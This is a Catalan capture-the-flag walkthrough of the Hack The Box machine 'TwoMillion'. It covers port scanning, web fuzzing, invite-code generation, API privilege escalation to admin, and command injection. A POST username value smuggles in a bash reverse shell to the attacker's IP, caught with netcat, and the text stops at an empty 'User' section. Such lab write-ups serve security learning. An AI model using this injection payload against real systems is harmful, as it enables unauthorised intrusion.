 <p align="center">
  <img src="https://github.com/user-attachments/assets/67d6ce83-549a-4d19-bf3f-9e20ff2fb6bb" alt="twomillion-htb-header" width="700" height="500">
</p>

---
## NMAP Scanning
Escaneig a través d'enviament de paquets TCP SYN a tots els ports del host per detectar quins estan oberts.
````bash
> nmap -p- --open -sS -v -n --min-rate=5000 -Pn -n 10.10.11.221

Host is up (0.072s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.52 seconds
           Raw packets sent: 65562 (2.885MB) | Rcvd: 65562 (2.622MB)
````
Amb els ports resultants de l'escaneig anterior, enumerar la versió i llençar els scripts per defecte de NMAP.
````bash
> nmap -sCV -p22,80 -Pn 10.10.11.221

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.88 seconds
````
Buscant la versió de SSH al launchpad d'Ubuntu ja es pot extreure que, segurament, el host té un Ubuntu Jammy. D'altra banda, sabem que s'està aplicant _Virtual Hosting_ i, per tant, s'ha d'afegir el domini 2million.htb a l'arxiu /etc/hosts per a que resolgui a la IP que pertoca.

## Web enumeration

````bash
> wfuzz -c -t 20 --hc=401,301 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://2million.htb/FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://2million.htb/FUZZ
Total requests: 220545

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                          
=====================================================================

000000039:   200        80 L     232 W      3704 Ch     "login"                                                                                                                                          
000000024:   302        0 L      0 W        0 Ch        "home"                                                                                                                                           
000000051:   200        94 L     293 W      4527 Ch     "register"                                                                                                                                       
000001012:   401        0 L      0 W        0 Ch        "api"                                                                                                                                            
000001211:   302        0 L      0 W        0 Ch        "logout"                                                                                                                                         
000001545:   200        45 L     152 W      1674 Ch     "404"                                                                                                                                            
000007259:   200        45 L     152 W      1674 Ch     "0404"                                                                                                                                           
000007922:   200        96 L     285 W      3859 Ch     "invite" 
````
Els directoris que ens interessen són: _login_, _register_, _invite_ i _api_. De moment, no es pot fer res a cap d'aquests, ja que no disposem de credencials vàlides ni de codi d'invitació. Tanmateix, mirant el codi de la pàgina _/invite_ es veu un script de verificació del codi introduït que crida a l'endpoint de l'API _/api/v1/invite/verify_.
````javascript
        $(document).ready(function() {
            $('#verifyForm').submit(function(e) {
                e.preventDefault();

                var code = $('#code').val();
                var formData = { "code": code };

                $.ajax({
                    type: "POST",
                    dataType: "json",
                    data: formData,
                    url: '/api/v1/invite/verify',
                    success: function(response) {
                        if (response[0] === 200 && response.success === 1 && response.data.message === "Invite code is valid!") {
                            // Store the invite code in localStorage
                            localStorage.setItem('inviteCode', code);

                            window.location.href = '/register';
                        } else {
                            alert("Invalid invite code. Please try again.");
                        }
                    },
                    error: function(response) {
                        alert("An error occurred. Please try again.");
                    }
                });
            });
        });
````
També es veu que executa un fitxer de JavaScript a la ruta _/js/inviteapi.min.js_, en el qual, a banda de l'endpoint _verify_, trobem un altre per generar un codi: _generate_. Per tant, es dedueix que per generar un codi hem de fer una petició a l'endpoint _/api/v1/invite/generate_. Tanmateix, una petició per GET retorna un codi d'error 405 dient que el mètode no està permès però provant la mateixa petició amb el mètode POST retorna un codi d'invitació en format base64.

![image](https://github.com/user-attachments/assets/66679475-d9e7-4814-bb84-b55a26a5eb52)

````bash
> echo "VVpXQ0ctWlBGVjQtTTI5Q1YtWUVRRjQ=" | base64 -d
UZWCG-ZPFV4-M29CV-YEQF4
````
I ja ens podem registrar :)

## Initial Foothold
Amb la sessió ja iniciada, una petició a la ruta _/api/v1_ retorna una descripció de totes les opcions de l'API i els mètodes que permet cadascuna.

![image](https://github.com/user-attachments/assets/8f03fde9-6a35-4fc3-bc35-0067bf07b33f)

Una d'aquestes és _/api/v1/admin/settings/update_, que mitjançant el mètode PUT permet actualitzar les dades d'un usuari, inclús si és administrador o no. Jugant amb les respostes que dóna cada petició, s'arriba a una petició final que permet convertir-nos en administrador.

![image](https://github.com/user-attachments/assets/dd5222fc-b315-4f4c-b39e-7ea8131c42e3)

I ara, si llancem una petició GET a _/api/v1/admin/auth_, veurem que som administradors.

![image](https://github.com/user-attachments/assets/519fa0c0-fed6-4a81-a761-639a71d25e8a)

Una altra opció de l'API és generar una VPN per a qualsevol usuari, a través de peticions POST. Com és un host Linux, es pot suposar que per darrere hi ha una execució de comandes a nivell de sistema per generar la VPN, així que es pot dur a terme una injecció de comandes si l'input no està sanititzat, de la següent forma:
````php
<?php sytem($_GET['VPN command ;command injection']); ?>
````
Així doncs, provem de ficar-nos en escolta per la interfície _tun0_ per rebre possibles traces ICMP i de fer un ping a la nostra màquina atacant per veure si aconseguim establir una connexió.
![image](https://github.com/user-attachments/assets/a4efc331-93da-4b3e-8527-b5ec2e403c00)
````bash
> sudo tcpdump -i tun0 icmp

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:30:56.547888 IP 2million.htb > 10.10.16.68: ICMP echo request, id 3, seq 1, length 64
13:30:56.547905 IP 10.10.16.68 > 2million.htb: ICMP echo reply, id 3, seq 1, length 64
````
I com veiem que hem rebut la traça de tornada, podem establir una reverse shell.

**- Atacant:** nc -lvnp 4321

**- POST data:** { "username":"admin;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.68/4321 0>&1'" }

![image](https://github.com/user-attachments/assets/5f5a966c-d81e-4de9-bc2e-cfd0c2e9a998)

Hem aconseguit una reverse shell com l'usuari _www-data_.

## User


 
